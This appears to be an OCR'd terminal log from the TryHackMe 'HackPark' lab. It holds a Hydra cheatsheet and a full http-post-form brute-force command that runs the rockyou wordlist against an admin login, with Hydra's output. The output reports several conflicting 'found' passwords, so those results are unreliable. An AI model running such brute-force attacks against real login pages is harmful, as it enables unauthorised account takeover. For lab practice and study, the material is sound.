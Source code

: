 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-08 08:26:23
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[ERROR] the variables argument needs at least the strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^: (null)
# the tryhackme page had a mini cheatsheet:
Command Description
hydra -P <wordlist> -v <ip> <protocol>
        Brute force against a protocol of your choice
hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>
        You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts)
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>
        Attack a Windows Remote Desktop with a password list.
hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
        Craft a more specific request for Hydra to brute force.


#I fired up burp and decided to proxy the post request, the results gave me some more parameters that I decided to try and include in the hydra attack


#so I tried this instead (after I deactivated burp suite
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.201.164 http-post-form "/Account/login.aspx:__V 
IEWSTATE=l3Yk6eK34PEwrc4tPgJSmWzcqVeShyN2RirnvfmgjgdAW5qbbh4fHrTUnrbJzcZb4W4ejYayXbWnCvMxQeZizwOl2Dbbx6d%2BL 
ijpJ%2FudLWNBtYiyp9uK1z8mIfBt0j8D3WYomdTNpUg7LTyOitVFHgzGY%2BMfSUpr5AgyI9NoLmfoq0x%2F&__EVENTVALIDATION=PP8I 
Nhz%2BshH3%2BKMq1XHHl3ff6s6eF%2FanNJWiMF0TuGcj4KrXsdINfWGSFdqQObkbptPU7NZAtHlrdM41fSj4zp5Myl1knw8aElb89ezpBx 
0As9mgHz6mhq17oTewE%2FAZAtyPjG1AGXJ2xeE%2B6Mhel%2B95d7P05fU7lKmcM2t480WuC5bQ&ctl00%24MainContent%24LoginUser 
%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24Login 
Button=Log+in:Login failed" -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-08 15:52:59
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.201.164:80/Account/login.aspx:__V
IEWSTATE=l3Yk6eK34PEwrc4tPgJSmWzcqVeShyN2RirnvfmgjgdAW5qbbh4fHrTUnrbJzcZb4W4ejYayXbWnCvMxQeZizwOl2Dbbx6d%2BL
ijpJ%2FudLWNBtYiyp9uK1z8mIfBt0j8D3WYomdTNpUg7LTyOitVFHgzGY%2BMfSUpr5AgyI9NoLmfoq0x%2F&__EVENTVALIDATION=PP8I
Nhz%2BshH3%2BKMq1XHHl3ff6s6eF%2FanNJWiMF0TuGcj4KrXsdINfWGSFdqQObkbptPU7NZAtHlrdM41fSj4zp5Myl1knw8aElb89ezpBx
0As9mgHz6mhq17oTewE%2FAZAtyPjG1AGXJ2xeE%2B6Mhel%2B95d7P05fU7lKmcM2t480WuC5bQ&ctl00%24MainContent%24LoginUser
%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24Login
Button=Log+in:Login failed
[80][http-post-form] host: 10.10.201.164   login: admin   password: password
[80][http-post-form] host: 10.10.201.164   login: admin   password: 123456
[80][http-post-form] host: 10.10.201.164   login: admin   password: 123456789
[80][http-post-form] host: 10.10.201.164   login: admin   password: princess
[80][http-post-form] host: 10.10.201.164   login: admin   password: 12345678
[80][http-post-form] host: 10.10.201.164   login: admin   password: abc123